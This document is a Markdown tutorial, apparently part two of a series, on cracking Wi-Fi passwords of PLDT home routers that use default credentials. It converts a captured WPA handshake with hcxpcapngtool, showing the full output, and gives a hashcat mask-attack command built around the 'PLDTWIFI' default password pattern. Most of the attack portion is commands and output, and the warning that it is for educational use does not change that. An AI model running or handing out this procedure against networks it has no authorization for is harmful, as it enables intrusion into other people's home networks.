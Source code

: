### How to Hack PLDTWIFI Default Credetials (PART2)

Author's Warning:
- This video is for EDUCATIONAL PURPOSES ONLY. I own all equipment used for this demonstration. Only use the tools demonstrated in this video against networks you have permission to attack.

Note:
- to disable monitor mode and bring the wifi adapter back to its normal operation, perform `sudo airmon-ng stop wlan0`, then use the syntax `systemctl start NetworkManager`
#### Steps

1. Check in your home directory of the file captured in the last tutorial. In our case: `test.pcapng`
   ![[Pasted image 20220823071552.png]]
2. Before we can crack this password, we will convert this first to a file recognized by hashcat. To do this, we can use the syntax `hcxpcapngtool -E essidlist -I identitylist -U usernamelist -o /home/kali/test.22000 /home/kali/test.pcapng`, like so:

```
┌──(kali㉿kali)-[~]
└─$ hcxpcapngtool -E essidlist -I identitylist -U usernamelist -o /home/kali/test.22000 /home/kali/test.pcapng
hcxpcapngtool 6.2.7-36-g5dc85e2 reading from test.pcapng...

summary capture file
--------------------
file name................................: test.pcapng
version (pcapng).........................: 1.0
operating system.........................: Linux 5.18.0-kali5-amd64
application..............................: hcxdumptool 6.2.6
interface name...........................: wlan0
interface vendor.........................: 14ebb6
openSSL version..........................: 1.0
weak candidate...........................: 12345678
MAC ACCESS POINT.........................: 1011112cbeb6 (incremented on every new client)
MAC CLIENT...............................: b025aa87c352
REPLAYCOUNT..............................: 65134
ANONCE...................................: 51a04fa9485a0fc4bc9ef7a2cc7687146476cfe354e02b804015a0cc37c90f97
SNONCE...................................: 981d9b2fb4486c9c1b2d0215fe5c4c59b4b49f183ee225e71f3838ed433edd74
timestamp minimum (GMT)..................: 23.08.2022 07:05:53
timestamp maximum (GMT)..................: 23.08.2022 07:06:28
used capture interfaces..................: 1
link layer header type...................: DLT_IEEE802_11_RADIO (127)
endianess (capture system)...............: little endian
packets inside...........................: 464
frames with correct FCS..................: 462
packets received on 2.4 GHz..............: 2
packets received on 5 GHz................: 460
ESSID (total unique).....................: 2
BEACON (total)...........................: 3
BEACON on 2.4 GHz channel (from IE_TAG)..: 1 
BEACON on 5/6 GHz channel (from IE-TAG)..: 149 
BEACON (SSID wildcard/unset).............: 1
AUTHENTICATION (total)...................: 2
AUTHENTICATION (OPEN SYSTEM).............: 2
ASSOCIATIONREQUEST (total)...............: 1
ASSOCIATIONREQUEST (PSK).................: 1
EAPOL messages (total)...................: 456
EAPOL RSN messages.......................: 456
EAPOLTIME gap (measured maximum usec)....: 7498
EAPOL ANONCE error corrections (NC)......: not detected
REPLAYCOUNT gap (measured maximum).......: 2
EAPOL M1 messages (total)................: 450
EAPOL M2 messages (total)................: 3
EAPOL M3 messages (total)................: 1
EAPOL M4 messages (total)................: 2
EAPOL pairs (total)......................: 3
EAPOL pairs (best).......................: 1
EAPOL pairs written to 22000 hash file...: 1 (RC checked)
EAPOL M32E2 (authorized).................: 1

frequency statistics from radiotap header (frequency: received packets)
-----------------------------------------------------------------------
 2412: 2         5300: 114       5745: 244       5765: 95
 5785: 1         5805: 6

Information: missing frames!
This dump file does not contain undirected proberequest frames.
An undirected proberequest may contain information about the PSK.
It always happens if the capture file was cleaned or
it could happen if filter options are used during capturing.
That makes it hard to recover the PSK.


session summary
---------------
processed pcapng files................: 1

                                                                                                                      
┌──(kali㉿kali)-[~]
└─$ 

```

Use `ls` command to check and verify if the new file is now available:
![[Pasted image 20220823071839.png]]

3. Upload test.22000 in your drive (google drive, one drive, etc), or check if you can perform file sharing in your virtual machine going to your windows machine (haven't performed this yet).
4. Download the test.2200 in your windows machine (not kali), I will explain this later:
   ![[Pasted image 20220823072244.png]]
5. Download Hashcat. Use the Part1 tutorial for reference. No need to install, just download and extract.
6. Move the downloaded file (test.2200) to the hashcat directories folder, like so:
   ![[Pasted image 20220823072503.png]]
7. Open Windows Powershell, you can also use command prompt, but for me powershell gives more flexibility:
![[Pasted image 20220823084001.png]]

Once done, use this syntax:

```
./hashcat.exe -m 22000 test.22000 -a 3 -w 4 -S --force --increment --increment-min 13 --increment-max 14 -1 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 PLDTWIFI?1?1?1?1?1
```

Make sure that the file test.22000 is in the hashcat directory:

![[Pasted image 20220823084207.png]]

Once done, patiently wait for the password to crack and we can test it against the SSID:


![](../img/Pasted%20image%2020220823192222.png)
END